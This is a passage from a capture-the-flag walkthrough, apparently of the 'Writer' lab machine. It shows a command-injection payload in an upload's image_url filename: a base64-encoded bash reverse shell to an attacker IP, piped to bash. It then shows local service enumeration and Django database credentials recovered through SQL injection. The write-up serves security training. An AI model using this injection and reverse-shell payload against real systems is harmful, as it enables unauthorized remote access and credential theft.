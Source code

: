 First, the filename needs to include "jpg" to bypass the poorly implemented filetype filter. Secondly, we need to terminate the mv command with a semi colon so python's os.system call executes our next command which is our reverse shell. Next it echos the base64 encoded payload, pipes that to base64 to decode the payload, and finally pipes the decoded payload to bash to execute the shell command.

We go back and edit a blog post, then we upload this file payload as the image.

We can use burp to intercept a blog edit request, and add our special filename to the image_url value:

```
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/b00m.jpg;echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDMvOTAwMSAwPiYxIg==|base64 -d|bash;
```

When I send this using repeater in burp, my netcat listener gets a reverse shell as the www-data user.

## User

Next, we need to escalate our privileges from www-data to I assume either kyle or john, or both. We can start by looking to see if any services are listening locally now that we have a local shell:
```text
www-data@writer:/etc$ netstat -tulpn |grep -i listen
netstat -tulpn |grep -i listen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      102816/python3      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      - 
```

We see mysql, and potentially another web-server on port 8080. We can confirm this by looking at the ps output for the process:
```text
www-data@writer:/tmp$ ps aux |grep writer
ps aux |grep writer
www-data    1071  0.0  0.0   2608   612 ?        Ss   04:20   0:00 /bin/sh -c cd /var/www/writer2_project && python3 manage.py runserver 127.0.0.1:8080
```

writer2, maybe some local dev version of the web-service we've already exploited. Earlier in our SQLi phase, we were also able to pull the /etc/mysql/my.conf file and found the django DB credentials:
```text
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```
